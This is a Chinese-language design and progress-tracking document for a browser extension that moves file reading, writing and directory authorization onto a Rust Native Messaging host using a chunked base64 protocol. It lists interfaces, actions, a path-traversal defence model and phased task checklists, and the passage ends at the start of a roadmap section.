

# Native Host 文件系统能力 — 方案与进度追踪

> **目标**：当用户安装了 Native Host 后，目录授权与磁盘文件读写走 Native Host（Chrome Native Messaging），不再依赖 File System Access API。OPFS 的 pending/sync/冲突检测机制完整保留，Native Host 仅充当"磁盘执行器"。

---

## 0. 决策记录

| 决策点 | 结论 | 理由 |
|---|---|---|
| 传输通道 | **纯 Native Messaging**，不引入本地 HTTP server | NM 的安全由 Chrome 内核 `allowed_origins` 强制保障，零额外攻击面；HTTP server 会把私密通道暴露给同机任意网页 |
| 大文件方案 | **无状态 offset 分块**（`sendNativeMessage`） | 每块独立 spawn 进程，天然并发/容错，无需 session 管理 |
| 长连接 | 不使用 `connectNative` 做文件 IO | 文件操作无状态，单次模式更简单 |
| 后端实现语言 | **Rust**（对齐第一个 POC patch） | 启动快、无运行时依赖、体积小 |
| 扩展 ID | **已固定**为 `kdnnhmagmghdhfinoipgbcddnpmffbkp` | 通过 `wxt.config.ts` 的 `key` 字段固定 |
| 与 PR #6 关系 | **独立共存**。PR #6 是 CLI→浏览器任务委派；本方案是浏览器→磁盘文件 IO。两者共用同一个扩展 ID 和 manifest 注册基础设施，但是两个独立的 native host 进程 | 职责正交，互不干扰 |
| UI 后端标记 | **小图标徽章**（native-host root 显示徽章，FS Access root 保持现状不加标记） | 两种后端失败模式不同（FS Access 重启易失效需重新激活；native host 权限持久在 scopes.json），测试与排错时必须能一眼区分；徽章只在 native 存在时出现，零干扰（详见 §6.4） |

---

## 1. 现有架构（改造前的状态）

### 1.1 文件 IO 三层解耦

```
Agent 工具 (read/write/edit/ls/search/bash)
        ↓ 依赖接口
VfsBackend (统一契约)
        ↓ 包装
WorkspaceBackend → useOPFSStore → WorkspaceRuntime
                                    ↓
                  ┌─────────────────┴─────────────────┐
                  ↓ OPFS 缓存层（不动）              ↓ 原生磁盘层（要替换）
            this.workspaceDir                 directoryHandle (FileSystemDirectoryHandle)
            files/  .baseline/  workspace.json   .getFileHandle() .entries() .removeEntry() ...
```

### 1.2 关键文件清单

| 文件 | 角色 | 本次是否改动 |
|---|---|---|
| `web/src/agent/tools/vfs-backend.ts` | 统一文件 IO 接口 | ❌ 不动 |
| `web/src/agent/tools/backends/workspace-backend.ts` | 包装 WorkspaceRuntime | ❌ 不动 |
| `web/src/opfs/workspace/workspace-runtime.ts` | OPFS 缓存 + pending + 冲突（3453 行核心类） | ✅ 改造调用方式 |
| `web/src/opfs/workspace/workspace-pending.ts` | pending 队列 + sync 落盘 | ✅ 改 sync 签名 |
| `web/src/opfs/workspace/workspace-manager.ts` | workspace 工厂 | ✅ 注入 executor |
| `web/src/opfs/utils/file-reader.ts` | diff 专用读取 | ⚠️ 后续适配 |
| `web/src/native-fs/directory-handle-manager.ts` | FS Access 授权 + IDB 持久化 | ✅ 收编进 FSAccessExecutor |
| `web/src/store/folder-access.store.ts` | 授权 UI 状态机 | ✅ 改走 executor |
| `browser-extension/wxt.config.ts` | 扩展配置 | ✅ 已加 key + nativeMessaging |

### 1.3 当前 `FileSystemDirectoryHandle` 的三重角色

```
FileSystemDirectoryHandle 同时承担：
  ① 授权凭证  — showDirectoryPicker 获取，IDB 持久化，queryPermission
  ② 路由标识  — handle.name 当 rootName，projectId:rootName 做 Map key
  ③ 磁盘执行器 — getFileHandle / entries / removeEntry / createWritable
```

**Native Host 要取代的正是这三个角色**：用 `scope_id`（不透明字符串）替代 handle 的全部三重职责。

---

## 2. 目标架构



---

## 3. 核心抽象：`DiskExecutor` 接口

### 3.1 接口定义

**新增文件**：`web/src/opfs/native-disk/executor.ts`

```typescript
/** 授权后端类型 — UI 据此渲染后端徽章（见 §6.4） */
export type DiskBackend = 'fsaccess' | 'native-host'

/** 一个已授权的磁盘根 */
export interface DiskRoot {
  readonly id: string          // FSAccess: compoundKey | NH: scope_id
  readonly displayName: string // rootName，用于多根路由
  readonly readOnly: boolean
  readonly backend: DiskBackend // 区分授权通道，UI 渲染徽章
  readonly permissions: readonly ('read' | 'write' | 'search')[]
}

// web 端 `RootInfo`（types/folder-access.ts）需镜像新增同名字段，
// 默认值 'fsaccess'；阶段3 native host 接通后才出现 'native-host'。

export interface DiskStat {
  mtime: number
  size: number
  contentType: 'text' | 'binary'
  isFile: boolean
}

export interface DiskEntry {
  name: string
  kind: 'file' | 'directory'
  stat?: DiskStat
}

/** 磁盘执行器 — 取代 FileSystemDirectoryHandle 的三重角色 */
export interface DiskExecutor {
  // —— 授权管理（角色①）——
  listRoots(projectId: string): Promise<DiskRoot[]>
  authorizeRoot(projectId: string, opts?: {
    displayName?: string
    readOnly?: boolean
  }): Promise<DiskRoot | null>  // null = 用户取消
  revokeRoot(projectId: string, rootId: string): Promise<void>
  hydrateRoot(projectId: string, rootId: string): Promise<boolean>

  // —— 磁盘执行（角色③；角色②由 rootId 隐式承担）——
  read(rootId: string, relativePath: string): Promise<{ content: Uint8Array; stat: DiskStat }>
  write(rootId: string, relativePath: string, content: string | Uint8Array): Promise<{ stat: DiskStat }>
  delete(rootId: string, relativePath: string): Promise<void>
  stat(rootId: string, relativePath: string): Promise<DiskStat | null>
  listDir(rootId: string, relativePath: string): Promise<DiskEntry[]>
}
```

### 3.2 两个实现

| 实现 | 文件 | 数据来源 |
|---|---|---|
| `FSAccessExecutor` | `executor-fsaccess.ts` | 现有 `directory-handle-manager.ts` 逻辑搬家，包装 `FileSystemDirectoryHandle` |
| `NativeHostExecutor` | `executor-native-host.ts` | 调 `window.__agentWeb.nativeHostCall` |

---

## 4. Native Messaging 分块协议（大文件传输）

### 4.1 数值边界

```
Chrome NM 单消息硬上限：1,048,576 bytes (1 MB)

分块大小：512 KB 原始字节
  → base64 编码后：512K × 4/3 ≈ 666 KB
  → + JSON 信封开销 ~200 B
  → 总消息体积：~667 KB
  → 距 1 MB 上限余量：~380 KB ✓

阈值（单次 vs 分块切换点）：512 KB
  ≤ 512 KB → 单次 read_file / write_file
  > 512 KB → 分块 read_file_at / write_file_at
```

### 4.2 读协议（host → 扩展）

```
扩展                                     Rust Host（每次新进程）
  │
  │  1. stat 拿文件大小
  ├─► {action:'stat_file', scope_id, relative_path}
  │◄── {ok, size: 10485760, mtime: 1784000000}
  │
  │  size > 512KB → 进入分块模式
  │
  │  2. 循环读块
  ├─► {action:'read_file_at', scope_id, relative_path,
  │      offset: 0, length: 524288}
  │◄── {ok, data:'<666KB base64>', encoding:'base64',
  │      bytes_read: 524288, offset: 0, eof: false}
  │
  │  pipeTo(OPFS writable)  ← 写入 OPFS，背压自然产生
  │
  │  ... 重复直到 eof=true ...
  ▼
```

**Rust 侧 `read_file_at` 行为**：
1. scope 校验 + 路径穿越拦截（复用 `resolve_safe_relative`）
2. `File::open(resolved)`
3. `seek(SeekFrom::Start(offset))`
4. `read` 到 buf（最多 length 字节，预分配 buf 最多 length）
5. base64 编码读到的字节
6. `eof = (实际读到 < length) || (offset + bytes_read == file_size)`
7. 返回后进程退出，不持有文件锁

**内存安全**：每次只读 512KB 到内存，base64 后 ~666KB，立即返回。

### 4.3 写协议（扩展 → host）

```
扩展                                     Rust Host（每次新进程）
  │
  │  从 ReadableStream 取出一块
  │
  │  1. 首块（truncate=true，覆盖已有文件）
  ├─► {action:'write_file_at', scope_id, relative_path,
  │      offset: 0, data:'<666KB base64>', encoding:'base64',
  │      truncate: true}
  │◄── {ok, bytes_written: 524288, offset: 0}
  │
  │  2. 后续块（truncate=false）
  ├─► {action:'write_file_at', ..., offset: 524288,
  │      data:'...', truncate: false}
  │◄── {ok, bytes_written: 524288, offset: 524288}
  │
  │  ... 重复直到流结束 ...
  │
  │  N. 末块 + finalize
  ├─► {action:'write_file_at', ..., offset: 9961472,
  │      data:'<最后一块>', finalize: true}
  │◄── {ok, bytes_written: 524288,
  │      size: 10485760, mtime: 1784000000}
  ▼
```

**Rust 侧 `write_file_at` 行为**：
1. scope 校验 + 路径穿越拦截
2. decode base64 → bytes
3. 打开文件：`truncate=true` → `create+write+truncate`；`truncate=false` → `create+write`
4. `seek(SeekFrom::Start(offset))`
5. `write_all(&bytes)`
6. `finalize=true` → `sync_all()` + 读 metadata 返回 size/mtime

**幂等性**：每块按 offset 写入，重试同一块覆盖相同位置，结果不变。

### 4.4 TS 侧封装

`NativeHostExecutor.read/write` 内部实现分块，返回 `ReadableStream`，上层 `WorkspaceRuntime` 无感知：

```typescript
// executor-native-host.ts 核心思路
const CHUNK_SIZE = 512 * 1024
const INLINE_THRESHOLD = 512 * 1024

async read(rootId, path) {
  const stat = await this.callNM('stat_file', { scope_id: rootId, relative_path: path })
  if (stat.size <= INLINE_THRESHOLD) {
    // 小文件：单次 NM
    const r = await this.callNM('read_file', { scope_id: rootId, relative_path: path })
    return { stream: singleChunkStream(decodeBase64(r.content)), stat }
  }
  // 大文件：分块拉取流
  let offset = 0
  const stream = new ReadableStream({
    pull: async (controller) => {
      if (offset >= stat.size) { controller.close(); return }
      const chunk = await this.callNM('read_file_at', {
        scope_id: rootId, relative_path: path, offset, length: CHUNK_SIZE,
      })
      controller.enqueue(decodeBase64(chunk.data))
      offset += chunk.bytes_read
      if (chunk.eof) controller.close()
    },
  })
  return { stream, stat }
}
```

---

## 5. Rust 侧 Action 规范

### 5.1 完整 Action 清单

| Action | 用途 | 分块? | 状态 |
|---|---|---|---|
| `ping` | 链路自检 | - | ✅ 已有（POC patch） |
| `list_scopes` | 列授权目录 | - | ✅ 已有 |
| `pick_folder` | 授权新目录 | - | ✅ 已有 |
| `remove_scope` | 撤销授权 | - | ❌ 新增 |
| `stat_file` | 文件元信息 | - | ❌ 新增 |
| `list_dir` | 目录列举 | - | ❌ 新增 |
| `read_file` | 小文件单次读 | 否 | ⚠️ 已有，需去 max_bytes 强制截断 |
| `read_file_at` | 大文件分块读 | 是 | ❌ 新增 |
| `write_file` | 小文件单次写 | 否 | ❌ 新增 |
| `write_file_at` | 大文件分块写 | 是 | ❌ 新增 |
| `search` | Spotlight 搜索 | - | ✅ 已有（Agent 工具层用，非 executor） |

### 5.2 新增 Action 请求/响应格式

#### `stat_file`
```jsonc
// 请求
{ "action": "stat_file", "scope_id": "scope_a1b2", "relative_path": "docs/budget.md" }
// 响应
{ "ok": true, "size": 12345, "mtime": 1784000000, "is_file": true }
// 不存在
{ "ok": false, "error": "not found" }
```

#### `list_dir`（非递归，只列直接子项）
```jsonc
// 请求
{ "action": "list_dir", "scope_id": "scope_a1b2", "relative_path": "src" }
// 响应
{ "ok": true, "entries": [
  { "name": "main.ts", "kind": "file", "size": 1024, "mtime": 1784000000 },
  { "name": "utils", "kind": "directory" }
]}
```

#### `read_file_at`
```jsonc
// 请求
{ "action": "read_file_at", "scope_id": "scope_a1b2",
  "relative_path": "data/large.csv", "offset": 524288, "length": 524288 }
// 响应
{ "ok": true, "data": "<base64>", "encoding": "base64",
  "bytes_read": 524288, "offset": 524288, "eof": false }
```

#### `write_file_at`
```jsonc
// 请求
{ "action": "write_file_at", "scope_id": "scope_a1b2",
  "relative_path": "output/result.bin", "offset": 524288,
  "data": "<base64>", "encoding": "base64",
  "truncate": false, "finalize": false }
// 响应
{ "ok": true, "bytes_written": 524288, "offset": 524288 }
// finalize=true 时额外返回
{ "ok": true, "bytes_written": 524288, "size": 10485760, "mtime": 1784000000 }
```

#### `write_file`（小文件单次）
```jsonc
// 请求
{ "action": "write_file", "scope_id": "scope_a1b2",
  "relative_path": "config.json", "data": "<base64>", "encoding": "base64" }
// 响应
{ "ok": true, "size": 256, "mtime": 1784000000 }
```

#### `remove_scope`
```jsonc
// 请求
{ "action": "remove_scope", "scope_id": "scope_a1b2" }
// 响应
{ "ok": true }
```

### 5.3 新增 Rust 文件

| 文件 | 核心逻辑 |
|---|---|
| `actions/write_file.rs` | 单次写 + 自动建父目录 |
| `actions/write_file_at.rs` | 分块写，支持 truncate/finalize |
| `actions/read_file_at.rs` | 分块读，seek + 限量 read |
| `actions/delete_file.rs` | 删文件 |
| `actions/stat_file.rs` | metadata 查询 |
| `actions/list_dir.rs` | 非递归列直接子项 |
| `actions/remove_scope.rs` | 从 scopes.json 移除记录 |

所有 action 复用 `scope::resolve_safe_relative` 做路径穿越拦截。

### 5.4 `read_file.rs` 修改

现有实现强制 `max_bytes = 900_000` 截断，会导致 diff/冲突检测错乱。修改为：
- 增加 `full: bool` 参数，`full=true` 时不截断
- 或直接去掉强制截断（WorkspaceRuntime 总是需要全量读）

---

## 6. 扩展端改造

### 6.1 `client.ts` — action 白名单扩展

新增以下 action 的字段白名单转发（在 `handleNativeHostCall` 的 switch 里）：

```typescript
const allowedActions = new Set([
  'ping', 'search', 'list_scopes', 'pick_folder', 'read_file',
  // 新增
  'stat_file', 'list_dir', 'delete_file', 'remove_scope',
  'read_file_at', 'write_file', 'write_file_at',
])
```

### 6.2 `injected.content.ts` — 暴露 `nativeHostCall`

已在 POC patch 中实现，无需改动（action 联合类型可扩展但运行时不强制）。

### 6.3 `wxt.config.ts` — ✅ 已完成

- [x] 固定扩展 key → ID = `kdnnhmagmghdhfinoipgbcddnpmffbkp`
- [x] 加 `nativeMessaging` 权限
- [x] 加 Firefox `browser_specific_settings.gecko.id`

### 6.4 UI 标记：区分 native-host 与 FS Access 授权

**问题**：`FolderSelector.tsx` 渲染的 root chip（状态点 + 文件夹名 + 只读锁）当前没有任何字段标识 root 由哪个后端授权。两种后端**失败模式不同**，测试/排错时必须能一眼区分：

| | FS Access | Native Host |
|---|---|---|
| 权限持久性 | 浏览器重启易失效 → 常进 `needs_user_activation`（琥珀点） | 持久在 `~/.creatorweave/native-host-scopes.json`，重启不失效 |
| 失效原因 | 浏览器权限过期 | host 未安装 / 未运行 |
| 恢复方式 | 点 chip → restore permission（`requestPermission`） | 重装/重启 host |

**方案**：`RootInfo` / `DiskRoot` 新增 `backend: 'fsaccess' | 'native-host'` 字段，`RootChip` 据此渲染徽章。

- **FS Access root**：保持现状，**不加任何标记**（零干扰）
- **Native host root**：chip 名称右侧追加一个小图标徽章
  - 图标语义：`Cable`（连接线，暗示 NM 通道）/ `ShieldCheck`（权限持久）二选一
  - hover 显示 tooltip：`Authorized via Native Host`
- 状态点颜色含义不变（绿=ready / 琥珀=需激活 / 灰=其他），徽章与状态点正交共存

**涉及文件**：

| 文件 | 改动 |
|---|---|
| `web/src/types/folder-access.ts` | `RootInfo` 加 `backend: DiskBackend`（默认 `'fsaccess'`） |
| `web/src/opfs/native-disk/executor.ts` | `DiskRoot` 加 `backend`（见 §3.1） |
| `web/src/components/layout/FolderSelector.tsx` | `RootChip` 按 `root.backend === 'native-host'` 渲染徽章 + tooltip |
| i18n | 加 `folderSelector.nativeHostBadge` tooltip 文案 |

> 阶段1 重构时类型字段就应就位（默认全为 `fsaccess`，无视觉差异）；阶段3 native host 接通后徽章才真正出现。这样**先建好数据通道，再开视觉**，避免阶段3 还要回头改类型。

---

## 7. WorkspaceRuntime 改造细节

### 7.1 改造范围

约 10 个私有方法，把直接调 `FileSystemDirectoryHandle` API 改为调 `this.exec`：

| 当前方法 | 当前实现 | 改造后 |
|---|---|---|
| `readFromNativeFS(path, dirHandle)` | `getFileHandle→getFile` | `this.exec.read(rootId, relPath)` |
| `writeNativeFile(dirHandle, path, content)` | `getDirectoryHandle→getFileHandle→createWritable` | `this.exec.write(rootId, relPath, content)` |
| `deleteFromNative(dirHandle, path)` | `getDirectoryHandle→removeEntry` | `this.exec.delete(rootId, relPath)` |
| `getFileMetadata(dirHandle, path)` | `getFile→lastModified/size` | `this.exec.stat(rootId, relPath)` |
| `getAllNativeDirectoryHandles()` | `getRuntimeHandlesForProject` | `this.exec.listRoots(projectId)` |
| `getNativeDirectoryHandleForPath(path)` | `resolvePath→getRuntimeDirectoryHandle` | `resolvePath→查 rootId` |

### 7.2 改造模式示例

```typescript
// 改造前
private async readFromNativeFS(path: string, directoryHandle: FileSystemDirectoryHandle) {
  const fileHandle = await this.getFileHandle(directoryHandle, path)
  const file = await fileHandle.getFile()
  // ...
}

// 改造后（注入 executor）
constructor(workspaceId, workspaceDir, rootDirectory, private exec: DiskExecutor) {}

private async readFromNativeFS(rootId: string, path: string) {
  const { content, stat } = await this.exec.read(rootId, path)
  // ... 后续逻辑完全不变
}
```

### 7.3 `syncToDisk` 改造（最复杂的方法）

`pendingManager.sync` 当前接收 `FileSystemDirectoryHandle`。改造后传适配闭包：

```typescript
private async syncToDiskSingleRoot(rootId: string, onlyPaths?, forceOverwrite?) {
  const cacheInterface = {
    readCached: (path) => this.readFromFilesDir(path)?.content ?? null,
    read: async (path) => {
      const fromFiles = await this.readFromFilesDir(path)
      if (fromFiles) return { content: fromFiles.content }
      try { return { content: (await this.exec.read(rootId, path)).content } }
      catch { return null }
    },
  }
  // 改 pendingManager.sync 签名：接收 rootId + exec 而非 handle
}
```

### 7.4 全局开关

在 `workspace-manager.ts` 的 `createWorkspace` 里，根据能力探测选 executor：

```typescript
const disk = isNativeHostAvailable()
  ? new NativeHostExecutor()
  : new FSAccessExecutor()
const workspace = new WorkspaceRuntime(id, workspaceDir, rootDirectory, disk)
```

---

## 8. 安全模型（继承自 POC patch，不变）

- 网页/Agent **永远拿不到**真实磁盘路径，只拿到不透明的 `scope_id`
- 真实路径映射只在 host 侧 `~/.creatorweave/native-host-scopes.json`
- 四层防御：
  1. 扩展端 action 白名单 + 字段白名单转发
  2. web 工具层拒绝绝对路径
  3. host 侧 `canonicalize` + `starts_with` 防穿越
  4. search 结果二次 scope 校验

---

## 9. 实施阶段与进度追踪

### 阶段 0：前置（✅ 已完成）

- [x] 固定扩展 ID（`wxt.config.ts` 加 key）
- [x] 加 `nativeMessaging` 权限
- [x] 加 Firefox `gecko.id`
- [x] 创建本 STATUS.md 文档

### 阶段 1：纯重构（零功能变化，风险最低）

目标：引入 `DiskExecutor` 抽象，`FSAccessExecutor` 就是把现有代码搬进实现类，行为完全一致。

- [x] 新建 `web/src/opfs/native-disk/executor.ts`（接口定义）✅
- [x] 新建 `web/src/opfs/native-disk/executor-fsaccess.ts`（FSAccessExecutor）✅
  - [x] `listRoots` — 包装 `getRuntimeHandlesForProject`
  - [x] `authorizeRoot` — 包装 `requestDirectoryAccess`
  - [x] `revokeRoot` — 包装 `releaseDirectoryHandle`
  - [x] `hydrateRoot` — 包装 `queryPermission`
  - [x] `read` — 包装 `getFileHandle→getFile`
  - [x] `write` — 包装 `getDirectoryHandle→createWritable`
  - [x] `delete` — 包装 `removeEntry`
  - [x] `stat` — 包装 `getFile→lastModified/size`
  - [x] `listDir` — 包装 `entries()`
- [x] 改造 `WorkspaceRuntime` 构造函数，接收 `DiskExecutor`（默认注入 FSAccessExecutor）✅
- [~] 改造 `WorkspaceRuntime` 的 native 磁盘方法走 `this.diskExec`（核心方法 + 复杂批量场景已全部切换，见下方说明）
- [x] 改造 `WorkspacePendingManager.sync` 签名（接收 rootId + exec 回调）✅ 新增可选 `disk?: DiskAccessor` 参数，sync/detectConflicts/checkNativeConflict 内部全双路径（exec / raw handle），上层零改动
- [x] 改造 `folder-access.store`：`loadRoots()` 设置 `backend: 'fsaccess'`；`addRoot` 支持 native host 授权路径（Codex 实现） ✅
- [x] `RootInfo` / `DiskRoot` 加 `backend` 字段（默认 `'fsaccess'`，见 §3.1 & §6.4）✅
- [x] `FolderSelector.tsx` 的 `RootChip` 按 `backend` 渲染 native-host 徽章（Cable 图标 + tooltip，见 §6.4）✅
- [x] i18n 补 `projectRoots.nativeHostBadge` 文案（4 语言）✅
- [x] `WorkspaceManager.createWorkspace` 默认注入 FSAccessExecutor（构造函数默认参数，无需改 manager）✅
- [x] `pnpm test` 通过（Pending/Native Host 23/23；FileDiffViewer 测试已修正）✅
- [~] 全量 `pnpm test -- --run`：2026-08-14 在 Native Host exec 通道下触发 Bridge request timeout，尚未获得全量结果；已用 `pnpm vitest run src/components/sync/__tests__/FileDiffViewer.test.tsx` 验证现有唯一 Web 测试通过。

#### 阶段1 进展：内部方法切换

**已完成** ✅：所有 native 磁盘方法已切换到 `this.diskExec` / `diskRootId`，包括复杂批量场景：

| 已切换方法 | 改造方式 |
|---|---|
| `readFromNativeFS(path, dirHandle)` | 内部走 `this.diskExec.read(rootId, path)` |
| `getFileMetadata(dirHandle, path)` | 内部走 `this.diskExec.stat(rootId, path)` |
| `writeNativeFile(dirHandle, path, content)` | 内部走 `this.diskExec.write(rootId, path, content)` |
| `deleteFromNativeIfExists(dirHandle, path)` | 内部走 `this.diskExec.delete(rootId, path)` |
| `readNativeFileContent(dirHandle, path)` | 同 readFromNativeFS |
| `copyToNative(nativeDir, opfsDir, path)` | OPFS 读 + `this.diskExec.write` |
| `deleteFromNative(nativeDir, path)` | `this.diskExec.delete` |
| `prepareFiles(files)` | 按 `resolvePath` 路由：native-host root 走 `diskExec.read`，FS Access root 保留 handle |
| `listOpfsOnlyFiles()` | native-host root 用 `diskExec.stat` 检查文件是否存在 |
| `syncToNative()` | 新增 `syncToNativeDiskRoot` / `syncToNativeDiskRoots` / `copyToNativeDiskRoot` |
| `registerDetectedChanges()` | else 分支（无 handle）走 executor stat + read |

新增辅助方法 `resolveRootIdForHandle(dirHandle)` — 从 `getRuntimeHandlesForProject` 反查 handle→rootId。

**关键约束**：executor 按 `rootId` 寻址，而现有 private 方法接收的是 `(directoryHandle, path)`。
`rootId = buildHandleKey(projectId, rootName)`，由 `resolvePath()` 返回的 `{rootName, relativePath}` 构造。

### 阶段 2：Rust 侧补齐 action（可与阶段 1 并行）

- [x] `Cargo.toml` + `src/main.rs` + `src/nm.rs`（NM 协议 I/O）✅
- [x] `src/scope.rs`（scope 管理 + 路径穿越拦截 + scopes.json）✅
- [x] `src/actions/mod.rs` 分发器（注册全部 11 个 action）✅
- [x] `src/actions/base64.rs`（零依赖 base64 编解码）✅
- [x] `actions/ping.rs` ✅
- [x] `actions/list_scopes.rs` ✅
- [x] `actions/pick_folder.rs`（macOS NSOpenPanel）✅
- [x] `actions/remove_scope.rs` ✅
- [x] `actions/stat_file.rs` ✅
- [x] `actions/list_dir.rs` ✅
- [x] `actions/read_file.rs`（无 max_bytes 截断）✅
- [x] `actions/read_file_at.rs`（分块读，seek + 限量 read + eof）✅
- [x] `actions/write_file.rs`（自动建父目录）✅
- [x] `actions/write_file_at.rs`（分块写，truncate/finalize）✅
- [x] `actions/delete_file.rs`（幂等，支持 recursive）✅
- [x] `install.sh`（macOS NM manifest 注册）✅
- [x] `README.md` ✅
- [x] Rust 单元测试（base64/nm/scope 10 个测试全通过）✅
- [x] 本地 `cargo build --release` 验证编译通过 ✅
- [x] 本地 `cargo test` 验证单元测试 ✅

### 阶段 3：接通 NativeHostExecutor

- [x] 新建 `web/src/opfs/native-disk/executor-native-host.ts` ✅
  - [x] `listRoots` — 调 `list_scopes`
  - [x] `authorizeRoot` — 调 `pick_folder`
  - [x] `revokeRoot` — 调 `remove_scope`
  - [x] `read` — stat 判断大小 → 小走 `read_file`，大走分块 `read_file_at` 拼接
  - [x] `write` — 同上阈值切换（truncate + finalize）
  - [x] `delete` — 调 `delete_file`
  - [x] `stat` — 调 `stat_file`
  - [x] `listDir` — 调 `list_dir`
- [x] `executor.ts` 的 `isNativeHostAvailable()` 改为探测 bridge ✅
- [x] 扩展端 `injected.content.ts` 暴露 `__agentWeb.nativeHostCall` ✅
- [x] 扩展端 `background.ts` 转发 `native_host_call` → `sendNativeMessage` + action 白名单 ✅
- [x] `workspace-manager.ts` 加 `resolveDiskExecutor()` 全局开关 ✅
- [x] **CompositeExecutor 按路由选择**（不自动切换，用户显式授权后才走 native host）✅
- [x] **UI 交互**：`FolderSelector` / `folder-access.store.addRoot` 支持 native host 授权路径（pick_folder）✅
- [x] **background.ts relay 修复**：action 字段从 `message.action` 读取（非 `message.payload.action`）✅
- [x] **handle 判断修复**：`workspace.store.ts` / `auto-apply-run-changes.ts` 从 `!getNativeDirectoryHandle()` 改为 `!hasAnyNativeDirectoryHandle()` ✅
- [x] `readFile` / `writeFile` / `deleteFile` / `syncToDisk` / `detectSyncConflicts` 全部支持 `diskRootId` + native-host routing ✅
- [x] 本地 `tsc --noEmit` 验证类型通过 ✅
- [x] `pnpm build:extension` 验证扩展端编译通过 ✅
- [x] 端到端验证通过 ✅：
  - [x] ping 链路自检通过 ✅
  - [x] pick_folder 授权目录 ✅
  - [x] list_scopes 看到授权 ✅
  - [x] 小文件读写（< 512KB）✅
  - [x] 大文件读写（> 512KB，验证分块）✅
  - [x] 二进制文件（图片/PDF）✅
  - [x] delete + 目录列举 ✅
  - [x] sync 落盘 ✅

### 阶段 4：验证与打磨

#### 验证基线（2026-08-14）

- [x] `web`: `pnpm run typecheck` 通过
- [x] `web`: `pnpm vitest run src/components/sync/__tests__/FileDiffViewer.test.tsx` 通过（1 file / 1 test）
- [~] `web`: 全量 `pnpm test -- --run` 与 `pnpm run test:run` 均在当前 Native Host exec 通道报 `Bridge request timeout`，需在本地终端或恢复 bridge 后重跑
- [~] `native-host`: `cargo test` 曾报告 10 个单元测试通过；本轮复跑在 Native Host exec 通道收到 SIGKILL/随后 host-not-found，未能独立复核。需直接从本地终端执行 `cargo test`。

#### 自动化测试缺口（优先级由高到低）

- [ ] Rust：为实际使用的 `exec_sync` 增加测试：policy 二次校验、scope/cwd 路径穿越、非目录 cwd、命令不存在、非零退出、超时、stdout/stderr 与 NM 响应体积上限
- [ ] Rust：为 `read_file_at` / `write_file_at` 增加临时 scope 往返测试：512KB 边界、offset/eof、无效 base64、truncate/finalize 与父目录创建
- [ ] Web：为 `NativeHostExecutor` / `CompositeExecutor` 增加 mock bridge 测试：单块/多块、二进制、错误与 `scope_*` / compound rootId 路由
- [ ] Web：为 `WorkspaceRuntime` native-host 分支增加混合多 root、pending sync、冲突检测和 bridge 不可用回归测试
- [ ] Web：为 `exec.tool` + `exec-auth.store` + `ExecAuthModal` 增加 auto/prompt/denied/forbidden、timeout clamp、root/cwd、异常与结果透传测试
- [ ] Extension：为 action 白名单/字段转发和 `sendNativeMessage` 错误映射增加 Chrome API mock 测试

#### 其余打磨

- [ ] `file-reader.ts`（diff 专用）适配 executor
- [ ] `folder-access.store.refreshFilePaths` 适配（当前直接 `traverseDirectory(handle)`）
- [ ] 错误处理与重试策略
- [ ] 性能基准（大文件传输耗时）
- [ ] Windows 支持（当前 POC 仅 macOS）
- [ ] 代码签名 / 公证（macOS Gatekeeper）

---

## 10. 风险点

| 风险 | 影响 | 缓解 |
|---|---|---|
| `WorkspacePendingManager.sync` 签名变更 | 改动最深处 | 先写测试覆盖现有 sync 行为，重构后跑回归 |
| `refreshFilePaths` 直接遍历 handle | native host 无 handle | executor 提供 `walk(rootId)` 或在 `listDir` 上递归 |
| OPFS `createWritable` 流式 vs NM base64 一次性 | 大文件内存峰值 | 分块协议已限定 512KB/chunk，内存恒定 |
| NM 1MB 上限 | base64 膨胀 33% | 阈值设 512KB，留足余量 |
| Rust 每块 spawn 进程开销 | 大文件 N 次进程启动 | Rust 二进制小（opt-level=z + strip），单次 ~10ms |

---

## 11. 能力边界与演进路线 (Roadmap)

本方案（§1-§10）的上限是**浏览器内的文件编辑 Agent**（对标 Cursor Composer / GitHub Copilot Workspace）。它**不包含命令执行能力**。

以下 Roadmap 将未来演进分为三个清晰的档位，每个档位有独立的安全模型和架构边界。

### 档位一：纯文件 IO Agent（当前方案范围）
